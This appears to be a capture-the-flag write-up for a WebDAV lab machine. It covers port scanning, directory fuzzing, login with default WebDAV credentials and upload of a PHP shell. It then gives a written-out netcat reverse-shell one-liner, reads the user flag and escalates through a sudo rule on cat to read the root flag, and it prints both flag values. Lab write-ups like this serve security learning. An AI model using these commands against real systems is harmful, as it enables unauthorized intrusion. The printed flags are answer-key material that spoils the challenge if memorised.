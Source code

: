 <h3>1. Task: user.txt</h3>

Lets start with the usual nmap scans!

```
$ nmap 10.10.202.252
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-18 07:38 EDT
Nmap scan report for 10.10.202.252
Host is up (0.078s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.76 seconds
```

A web server on port 80, lets check it out.
Hm, apache ubuntu default page, lets try to fuzz the directories!
```
$ ffuf -u http://10.10.202.252/FUZZ -w ../wordlist/custom.txt -fc 403 -fs 11321
...
webdav                  [Status: 401, Size: 460, Words: 42, Lines: 15, Duration: 43ms]
```

Ffuf found a login page
Webdavs default credentials are: wampp:xampp
Lets try to login with this Password and Username
Logged in successfully! We can upload files to webdav like this:
```
$ curl http://10.10.202.252/webdav/ --user "wampp:xampp" --upload-file ../shell.php
```

And now we Will open a netcat session for a better Shell
Start the listener:
```
$ ncat -nlvp 8001
```

And execute the code in the uploaded file:
```
rm /tmp/f; mkfifo /tmp/f; nc <Your_ip> 8001 < /tmp/f | /bin/sh >/tmp/f 2>&1
```
And now we have a more stable Shell
```
$ ncat -nlvp 8001
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:8001
Ncat: Listening on 0.0.0.0:8001
Ncat: Connection from 10.10.202.252:57600.
```

Now lets find the first flag
```
www-data@ubuntu:/home$ ls
merlin  wampp
www-data@ubuntu:/home$ cd merlin 
www-data@ubuntu:/home/merlin$ ls
user.txt
www-data@ubuntu:/home/merlin$ cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
```

<hr>
<h3> 2. Task: root flag </h3>

Running the command "sudo -l" shows us that we can run cat as root without Password
```
www-data@ubuntu:/tmp$ sudo -l   
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

This Will allow us to read the root flag in /root/root.txt !
```
www-data@ubuntu:/tmp$ sudo cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
```
